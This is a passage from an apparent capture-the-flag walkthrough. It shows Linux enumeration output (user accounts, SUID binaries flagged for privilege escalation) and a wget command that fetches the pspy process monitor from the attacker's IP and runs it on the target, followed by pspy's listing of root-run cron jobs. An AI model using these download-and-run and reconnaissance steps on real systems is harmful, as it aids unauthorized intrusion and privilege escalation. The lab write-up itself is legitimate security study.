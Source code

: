 ```bash
postgres:x:70:70::/var/lib/postgresql:/bin/sh                               
professor:x:1002:1002:professor,,,:/home/professor:/bin/ash                 
root:x:0:0:root:/root:/bin/ash 

╔══════════╣ Installed Compilers
/usr/bin/gcc

══╣ Possible private SSH keys were found!
/home/nairobi/node_modules/http-signature/http_signing.md

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 114K Jun 14  2018 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
---s--x--x 1 root root 9.8K Jun 22  2018 /usr/bin/abuild-sudo
---s--x--x 1 root root 14K Sep 27  2018 /bin/bbsuid
-rwsr-xr-x 1 root root 30K Jul 30  2018 /bin/fusermount

════════════════════════════╣ Other Interesting Files ╠════════════════════════════
                            ╚═════════════════════════╝
	
/usr/bin/findssl.sh 

```

Let’s also transfer pspy to see what’s cron jobs are running:

```bash
wget http://10.10.16.7:8001/pspy64_2018   #try this version if the stripped is not working

chmod +x pspy64_2018
./pspy64_2018
2025/09/25 22:57:19 CMD: UID=65534 PID=13652  | /usr/bin/node /home/professor/memcached.js 
2025/09/25 22:56:00 CMD: UID=0    PID=13540  | /sbin/openrc-run /etc/init.d/supervisord restart 
2025/09/25 22:56:00 CMD: UID=0    PID=13539  | /sbin/openrc-run /etc/init.d/supervisord restart 
2025/09/25 22:56:00 CMD: UID=0    PID=13542  | /bin/sh /lib/rc/sh/openrc-run.sh /etc/init.d/supervisord stop 
2025/09/25 22:56:00 CMD: UID=0    PID=13545  | 
2025/09/25 22:56:00 CMD: UID=0    PID=13549  | /bin/sh /lib/rc/sh/openrc-run.sh /etc/init.d/supervisord stop 
2025/09/25 22:56:00 CMD: UID=0    PID=13548  | 
2025/09/25 22:56:00 CMD: UID=0    PID=13557  | start-stop-daemon --stop --exec /usr/bin/supervisord --pidfile /var/run/supervisord.pid 
2025/09/25 22:56:00 CMD: UID=0    PID=13564  | /bin/sh /lib/rc/sh/openrc-run.sh /etc/init.d/supervisord start 
2025/09/25 22:56:00 CMD: UID=0    PID=13566  | /bin/sh /lib/rc/sh/openrc-run.sh /etc/init.d/supervisord start 
2025/09/25 22:56:00 CMD: UID=0    PID=13579  | start-stop-daemon --start --exec /usr/bin/supervisord --pidfile /var/run/supervisord.pid --background --make-pidfile -- --nodaemon --pidfile /var/run/supervisord.pid --configuration /etc/supervisord.conf 
2025/09/25 22:56:00 CMD: UID=0    PID=13580  | start-stop-daemon --start --exec /usr/bin/supervisord --pidfile /var/run/supervisord.pid --background --make-pidfile -- --nodaemon --pidfile /var/run/supervisord.pid --configuration /etc/supervisord.conf 
2025/09/25 22:56:01 CMD: UID=0    PID=13582  | /bin/sh /lib/rc/sh/openrc-run.sh /etc/init.d/supervisord start 
2025/09/25 22:56:01 CMD: UID=0    PID=13587  | /usr/bin/python2 /usr/bin/supervisord --nodaemon --pidfile /var/run/supervisord.pid --configuration /etc/supervisord.conf 
2025/09/25 22:56:02 CMD: UID=0    PID=13588  | sudo -u nobody /usr/bin/node /home/professor/memcached.js 

2025/09/25 22:58:01 CMD: UID=0    PID=13715  | /bin/sh /lib/rc/sh/openrc-run.sh /etc/init.d/supervisord start 
```